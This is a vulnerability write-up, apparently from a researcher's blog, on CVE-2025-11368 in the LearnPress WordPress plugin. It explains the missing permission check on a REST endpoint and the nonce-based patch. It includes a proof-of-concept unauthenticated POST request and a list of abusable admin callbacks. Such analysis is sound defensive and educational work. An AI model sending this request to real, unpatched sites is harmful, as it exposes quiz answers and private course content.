



# CVE-2025-11368 Analysis & POC


<!--more-->

## CVE & Basic Info

The **LearnPress – WordPress LMS Plugin** for **WordPress** contains a **Sensitive Information Disclosure** vulnerability in all versions up to and including **4.2.9.4**. The cause is the lack of **capability checks** in the **REST endpoint** **/wp-json/lp/v1/load_content_via_ajax**, which allows execution of **arbitrary callbacks** belonging to **admin-only template methods**. This enables **unauthenticated attackers** to obtain **admin curriculum HTML**, **quiz questions with correct answers**, **course materials**, and other **sensitive educational content** via the **REST API endpoint**, as long as they supply **valid numeric IDs**.

* **CVE ID**: [CVE-2025-11368](https://www.cve.org/CVERecord?id=CVE-2025-11368)
* **Vulnerability Type**: Broken Access Control
* **Affected Versions**: <= 4.2.9.4
* **Patched Versions**: 4.3.0
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress LearnPress Plugin](https://wordpress.org/plugins/learnpress/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **LearnPress**:

  * `4.2.9.4` – **vulnerable**
  * `4.3.0` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers a REST API:

```php {title="class-lp-rest-ajax-controller.php v4.2.9.4" data-open=true hl_lines=[3,4,14,20]}
class LP_REST_AJAX_Controller extends LP_Abstract_REST_Controller {
	public function __construct() {
		$this->namespace = 'lp/v1';
		$this->rest_base = 'load_content_via_ajax';

		parent::__construct();
	}

	public function register_routes() {
		$this->routes = array(
			'/' => array(
				array(
					'methods'             => WP_REST_Server::ALLMETHODS,
					'callback'            => array( $this, 'get_content' ),
					'permission_callback' => '__return_true',
				),
			),
		);

		parent::register_routes();
	}
  ...
}
```

In the code above, **class LP_REST_AJAX_Controller** extends **LP_Abstract_REST_Controller** and is used to register a **REST API endpoint** for the **LearnPress** plugin.

* **__construct()**:

  * Sets the **namespace** to `lp/v1`.
  * Sets the **rest_base** to `load_content_via_ajax`.
  * Calls **parent::__construct()** to inherit the parent class setup.

* **register_routes()**:

  * Declares a route `/` with the following:

    * **methods**: accepts all HTTP methods (**WP_REST_Server::ALLMETHODS**).
    * **callback**: calls the `get_content` function.
    * **permission_callback**: always returns `true`, meaning **no permission checks**.
  * Calls **parent::register_routes()** to complete registration.

```php {title="abstract-rest-controller.php v4.2.9.4" data-open=true hl_lines=[18]}
public function register_routes() {
  if ( ! $this->routes ) {
    return;
  }

  foreach ( $this->routes as $key => $args ) {
    $rest_base = $this->rest_base;
    $override  = false;

    if ( is_bool( end( $args ) ) ) {
      $override = array_pop( $args );
    }

    if ( ! is_numeric( $key ) ) {
      $rest_base = "{$rest_base}/{$key}";
    }

    register_rest_route( $this->namespace, '/' . $rest_base, $args, $override );
  }
}
```

Thus, this API exposes the endpoint:
**`/wp-json/lp/v1/load_content_via_ajax`**,
and the `get_content` callback will be invoked when receiving a request.

```php {title="class-lp-rest-ajax-controller.php v4.2.9.4" data-open=true hl_lines=[13,14,25,26,30,41]}
public function get_content( WP_REST_Request $request ): LP_REST_Response {
  $response = new LP_REST_Response();

  try {
    $params = $request->get_params();

    if ( empty( $params['callback'] ) ||
      ! isset( $params['args'] ) ) {
      throw new Exception( 'Error: params invalid!' );
    }

    // @var array $args
    $args     = $params['args'];
    $callBack = $params['callback'];
    if ( $request->get_method() === 'GET' ) {
      $args     = LP_Helper::json_decode( $params['args'], true );
      $callBack = LP_Helper::json_decode( $params['callback'], true );
    }

    if ( empty( $callBack['class'] ) ||
      empty( $callBack['method'] ) ) {
      throw new Exception( 'Error: callback invalid!' );
    }

    $class  = $callBack['class'];
    $method = $callBack['method'];
    $data   = null;

    // Security: check callback is registered.
    $allow_callbacks = apply_filters(
      'lp/rest/ajax/allow_callback',
      []
    );
    $callBackStr     = $class . ':' . $method;
    if ( ! in_array( $callBackStr, $allow_callbacks ) ) {
      throw new Exception( 'Error: callback is not register!' );
    }

    // Check class and method is callable.
    if ( is_callable( [ $class, $method ] ) ) {
      $data = call_user_func( [ $class, $method ], $args );
    } else {
      throw new Exception( 'Error: callback is not callable!' );
    }

    if ( ! $data instanceof stdClass && ! isset( $data->content ) ) {
      throw new Exception( 'Error: data content invalid!' );
    }

    $response->status  = 'success';
    $response->message = 'Success!';
    $response->data    = $data;
  } catch ( Throwable $e ) {
    $response->status  = 'error';
    $response->message = $e->getMessage();
  }

  return $response;
}
```

The function receives `callback` and `args` from the request, decodes JSON if using GET, checks whether the callback contains both `class` and `method`, builds the string `class:method` and checks it against the valid callbacks list from the filter; if present, checks if class–method is callable and executes `call_user_func` with `$args`, receives `$data`, and returns it in the response.

A series of callbacks are registered via `add_filter` for `lp/rest/ajax/allow_callback`:



```php
public function allow_callback( array $callbacks ): array {
  $callbacks[] = get_class( $this ) . ':render_edit_quiz';
  $callbacks[] = get_class( $this ) . ':render_list_items_not_assign';

  return $callbacks;
}
```

The function receives the existing `$callbacks` array, adds two strings in the format `ClassName:method`, and returns the array for WordPress to use as the allowed callback list. While debugging, all registered callbacks appear:


> [!BUG]
> **The vulnerability arises because the API performs no capability or permission checks.**
> This allows any user—including unauthenticated attackers—to call the endpoint and execute any callback from the registered callback list, even those intended for admin-only templates.

**The patch (v4.3.0)** adds a permission validation step in `get_content` by checking the request’s `X-WP-Nonce`:

```php
if ( ! wp_verify_nonce( $request->get_header( 'X-WP-Nonce' ), 'wp_rest' ) ) {
  throw new Exception( 'Error: invalid nonce!' );
}
```

If the nonce is invalid or missing, the request is blocked immediately, preventing unauthorized users from accessing callbacks intended for admin.



## Flow


graph TD

A["Unauthenticated attacker"]
--> B["Sends request to REST API: /wp-json/lp/v1/load_content_via_ajax"]
--> C["Request includes callback (class + method) and args (lesson, quiz, material IDs...)"]
--> D["API receives request → invokes get_content()"]
--> E["permission_callback = __return_true → no capability checks"]
--> F["get_content() validates params but performs no permission or capability validation"]
--> G["Constructs class:method and verifies it against allowed callbacks via lp/rest/ajax/allow_callback"]
--> H["Callback is valid but intended for admin-only template rendering"]
--> I["API executes the method using call_user_func([class, method], args)"]
--> J["Template method renders sensitive HTML such as curriculum, quiz content, answers, or course materials"]
--> K["Sensitive data is returned to the attacker through the REST API"]



## Proof of Concept (PoC)

Send a request as an unauthenticated user:

```http
POST /wp-json/lp/v1/load_content_via_ajax HTTP/1.1
Host: localhost
...
callback[class]=LearnPress\TemplateHooks\Admin\AdminEditQizTemplate&callback[method]=render_list_items_not_assign&args[quiz_id]=483
```



**List of other allowed callbacks:**

```php {data-open=true}
LearnPress\TemplateHooks\Course\ListCoursesTemplate:render_courses
LearnPress\TemplateHooks\Course\ListCoursesRelatedTemplate:render_courses
LearnPress\TemplateHooks\Course\SingleCourseTemplate:render_html_comments
LearnPress\TemplateHooks\Profile\ProfileQuizzesTemplate:renderContent
LearnPress\TemplateHooks\Course\AdminEditCurriculumTemplate:render_edit_course_curriculum
LearnPress\TemplateHooks\Course\AdminEditCurriculumTemplate:render_list_items_not_assign
LearnPress\TemplateHooks\Admin\AdminEditQizTemplate:render_edit_quiz
LearnPress\TemplateHooks\Admin\AdminEditQizTemplate:render_list_items_not_assign
LearnPress\TemplateHooks\Admin\AdminEditQuestionTemplate:render_edit_question
LearnPress\TemplateHooks\Course\CourseMaterialTemplate:render_material_items
LearnPress\ExternalPlugin\Elementor\Widgets\Course\Skins\CoursesGrid:render_courses
LearnPress\ExternalPlugin\Elementor\Widgets\Course\Skins\CoursesList:render_courses
LearnPress\ExternalPlugin\Elementor\Widgets\Course\Skins\CoursesLoopItem:render_courses
LearnPress\Gutenberg\Blocks\Courses\ListCoursesBlockType:render_courses
```

## Conclusion

The vulnerability stems from a REST API endpoint **without access control**, allowing unauthenticated attackers to execute internal admin-only callbacks. Using valid IDs, attackers can extract **curriculum**, **quizzes**, **answers**, and other **sensitive course content**. The 4.3.0 patch resolves this by adding **X-WP-Nonce** verification to prevent unauthorized access.

## Key Takeaways

* **permission_callback = __return_true** is the root cause of the Broken Access Control issue.
* Allowing execution of internal callbacks without permissions leads directly to **sensitive data leaks**.
* LearnPress admin templates were unintentionally exposed through a public REST API.
* The effective fix is adding **wp_verify_nonce** and enforcing capability restrictions.
* WordPress REST APIs must always implement **capability checks** when handling sensitive operations.

## References

[Broken Access Control](https://patchstack.com/academy/wordpress/vulnerabilities/broken-access-control/)

[WordPress LearnPress Plugin <= 4.2.9.4 is vulnerable to Broken Access Control](https://patchstack.com/database/wordpress/plugin/learnpress/vulnerability/wordpress-learnpress-plugin-4-2-9-4-missing-authorization-to-unauthenticated-arbitrary-callback-execution-to-information-exposure-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-11-cve-2025-11368/  

